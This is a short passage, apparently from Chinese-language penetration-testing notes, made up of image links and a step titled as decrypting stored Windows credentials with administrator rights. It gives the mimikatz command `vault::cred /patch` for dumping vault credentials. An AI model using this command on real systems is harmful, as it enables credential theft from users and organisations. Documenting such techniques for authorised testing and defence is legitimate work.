    ![image](./imgs/chrome.png)

2. mimikatz解密Credential（需要管理员权限）
   `mimikatz vault::cred /patch`
   ![image](./imgs/vault.png)
